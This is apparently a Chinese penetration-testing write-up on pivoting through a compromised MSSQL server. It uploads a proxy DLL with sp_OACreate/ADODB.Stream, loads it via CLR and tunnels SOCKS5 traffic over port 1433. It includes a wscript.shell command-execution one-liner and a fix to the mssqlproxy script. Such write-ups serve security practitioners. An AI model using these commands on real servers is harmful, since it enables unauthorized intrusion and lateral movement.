


### 利用MSSQL突破网络限制

#### 0x01前言

在某次项目的内网环境中，获得了一个mssql的sa权限。开启xp_cmdshell执行命令，发现其不出网，也不能反连web服务器，且web服务器只能访问到数据库服务器的1433端口。鉴于此，可通过CLR功能，先上传一个代理dll文件(or 十六进制流)，执行后就可以把mssql作为代理访问到数据库服务器3389和其可访问的资源。

#### 0x02 步骤

使用[MssqlClient](https://github.com/blackarrowsec/mssqlproxy)连接数据库

- 上传dll

`upload reciclador.dll C:\windows\temp\reciclador.dll`


查看代码，可知改工具是利用了sp_OACreate存储过程来写入文件

```
"DECLARE @ob INT;"
"EXEC sp_OACreate 'ADODB.Stream', @ob OUTPUT;"
"EXEC sp_OASetProperty @ob, 'Type', 1;"
"EXEC sp_OAMethod @ob, 'Open';"
"EXEC sp_OAMethod @ob, 'Write', NULL, %s;"
"EXEC sp_OAMethod @ob, 'SaveToFile', NULL, '%s', 2;"
"EXEC sp_OAMethod @ob, 'Close';"
"EXEC sp_OADestroy @ob;" % (hexdata, remote))
```

#Tips：使用sp_OACreate调用wscript.shell执行系统命令

`declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c ipconfig >> c:\users\public\1.txt'`

- 安装CLR

  

- 执行代理

  

  配置SOCKS5代理便可使用。实际利用中，如果不方便使用mssqlclient，可以照着脚本里的sql语句逐条执行。

  #### 0x03 坑

  复现过程中，最后一步报错"cannot establish connection",分析后发现作者提供的脚本第217行

  ```
  DECLARE @ip varchar(15); SET @ip=TRIM(CONVERT(char(15),CONNECTIONPROPERTY('client_net_address')))
  ```

  语句中的TRIM报错，TRIM不兼容mssql版本。需要根据实际更改。如：

  ```
  DECLARE @ip varchar(15); SET @ip=RTRIM(LTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))))
  ```

  